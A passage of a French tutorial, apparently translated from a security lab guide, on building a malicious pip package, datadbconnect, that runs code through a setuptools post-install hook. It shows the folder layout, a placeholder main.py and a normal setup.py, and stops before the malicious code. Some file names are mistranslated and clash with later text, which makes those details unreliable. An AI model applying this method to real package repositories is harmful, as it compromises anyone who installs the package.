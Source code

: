 -   **package_nom** c'est le nom du paquet que nous créons. Dans notre cas, ce sera datadbconnect
-   **__init__.p** chaque paquet Pip nécessite un fichier init qui indique à Python qu'il y a des fichiers ici qui devraient être inclus dans la construction. Dans notre cas, nous garderons ce vide.

-   **principal.py** - Le fichier principal qui s'exécutera lorsque le paquet est utilisé. Nous allons créer un fichier principal très simple.
-   **configuration.py** c'est le fichier qui contient les instructions de construction et d'installation. Lors du développement de packages Pip, vous pouvez utiliser setup.py, setup.cfg ou pyproject.toml. Cependant, comme notre objectif est l'exécution de code à distance, setup.py sera utilisé car c'est le plus simple pour cet objectif.

Recréez cette structure de dossier pour votre paquet malveillant. Ajoutez le code suivant à votre fichier main.py:

```
#!/usr/bin/python3
def main():
   print ("Hello World")

if __name__=="__main__":
   main()
```

Il s'agit simplement d'un code de remplissage pour s'assurer que le paquet contient du code pour la construction. La partie la plus importante est le code setup.py. Jetons un coup d'œil à ce à quoi ressemblerait un fichier setup.py normal:

```

from setuptools import find_packages
from setuptools import setup

VERSION = 'v0.0.1'

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
)
```

Afin d'injecter l'exécution de code, nous devons nous assurer que le paquet exécute le code une fois qu'il est installé. Heureusement, setuptools, l'outillage que nous utilisons pour construire le package, a une fonctionnalité intégrée qui nous permet de nous accrocher à l'étape de post-installation. Ceci est généralement utilisé à des fins légitimes, telles que la création de raccourcis vers les binaires une fois qu'ils sont installés. Cependant, en combinant cela avec la bibliothèque os de Python, nous pouvons l'exploiter pour obtenir l'exécution de code à distance. Mettez à jour votre fichier setup.py avec les éléments suivants:
